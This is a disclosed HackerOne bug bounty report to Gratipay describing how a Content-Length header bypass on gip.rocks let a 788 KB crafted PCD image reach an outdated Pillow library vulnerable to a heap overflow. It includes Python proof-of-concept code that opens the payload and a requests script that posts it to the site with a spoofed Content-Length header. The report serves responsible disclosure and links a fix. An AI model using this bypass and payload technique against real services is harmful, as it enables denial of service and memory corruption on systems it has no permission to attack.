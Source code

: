 # Content-Length restriction bypass to heap overflow in gip.rocks.

## Report Details
- **Report ID**: 214449
- **URL**: https://hackerone.com/reports/214449
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-03-18T12:27:50.003Z
- **Disclosed**: 2017-03-20T20:17:36.903Z

## Reporter
- **Username**: edoverflow
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gratipay

## Vulnerability Information
I started playing around with a0xnirudh's [Content-Length restriction bypass](https://hackerone.com/reports/203388) and noticed that when combined with a different vulnerability  this could be leveraged to do a bit more than DoS.

We decided to open a new ticket to address this issue, since [we were already aware of the bypass](https://github.com/gratipay/gip.rocks/issues/2). a0xnirudh wrote such a good report that we decided to not close their report as a `Duplicate`.

# Summary
---

I noticed that `gip.rocks` was using an outdated version (2.9.0) of the Pillow framework which is vulnerable to heap overflows. The test playoad is 788480 bytes. So the bypass allowed me to pass the payload on to the vulnerable code.

~~~python
>>> import os
>>> os.path.getsize('payload.pcd')
788480L
~~~

# PoC
---

Vulnerable code in `www/v1.st` summarised:

~~~python
>>> from PIL import Image
>>> image = Image.open('foo.jpg')
>>> image.resize((foo, bar))
~~~

Summarised exploit:

~~~python
>>> from PIL import Image
>>> image = Image.open('payload.pcd')
>>> image.resize((128, 128))
~~~

Exploit concept:

~~~python
import requests
r = requests.post(  'http://gip.rocks/v1', 
                    data = open('payload.pcd').read(), 
                    headers = { 
                        'Content-Type': 'image/jpeg',
                        'Content-Length': ' ' # Insert a value smaller than 262144
                    }
                  )
print(r.status_code, r.reason)
~~~

# Fix
---

I have submitted a PR to solve the heap overflow vulnerability: https://github.com/gratipay/gip.rocks/pull/5

## Attachments
No attachments
